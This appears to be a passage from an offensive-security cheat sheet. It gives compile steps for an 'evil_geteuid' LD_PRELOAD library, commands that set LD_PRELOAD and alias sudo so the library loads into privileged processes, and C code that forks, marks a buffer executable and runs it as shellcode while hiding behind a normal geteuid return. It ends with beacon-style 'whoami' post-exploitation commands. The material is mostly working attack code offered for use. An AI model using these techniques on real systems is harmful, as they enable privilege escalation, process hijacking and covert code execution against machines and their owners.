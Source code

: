 #### LD_PRELOAD

[Payload Full Source](../src/c/evil-geteuid.c)

Compile

```
$ gcc -Wall -fPIC -z execstack -c -o evil_geteuid.o evileuid.c

$ gcc -shared -o evil_geteuid.so evil_geteuid.o -ldl
```

Execute

```
export LD_PRELOAD=/home/user/preload/preload/evil_geteuid.so
alias sudo="sudo LD_PRELOAD=/home/user/preload/evil_geteuid.so"
```

#### Fork & Run

```
if (fork() == 0)
{
        // we're running inside our newly created child process, run shell
        intptr_t pagesize = sysconf(_SC_PAGESIZE);
        if (mprotect((void *)(((intptr_t)buf) & ~(pagesize - 1)),pagesize, PROT_READ|PROT_EXEC))
        {
                perror("mprotect");
                return -1;
        }
        int (*ret)() = (int(*)())buf;
        ret();
}
else
{
        // otherwise return expected value of geteuid to continue running as intended
        printf("HACK: returning from function...\n");
        return (*old_geteuid)();
}
```

## Post Exploitation

### Situational Awareness

#### whoami

```
# short
beacon> shell whoami

# full
beacon> shell whoami /all

# groups
beacon> shell whoami /groups

# privileges
beacon> shell whoami /privs
```
